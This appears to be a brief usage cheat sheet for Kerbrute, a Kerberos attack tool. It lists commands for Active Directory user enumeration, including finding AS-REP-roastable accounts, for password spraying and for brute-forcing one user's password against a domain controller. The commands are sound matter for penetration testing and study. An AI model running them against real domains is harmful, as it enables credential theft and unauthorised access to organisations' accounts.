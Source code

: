# KERBRUTE (KERBEROS BRUTE FORCE CREDENTIALS)

### Usage: 

#### It can also show you users that can be AS-REPRoasted

 - ./kerbrute userenum --dc DOMAIN_CONTROLLER -d DOMAIN WORDLIST.TXT

#### Password Spray attack

 - ./kerbrute passwordspray -d DOMAIN USERS.TXT PASSWORD

 - ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 WORDLIST.TXT PASSWORD

#### Bruteforce attack

 - ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 WORDLIST.TXT USER

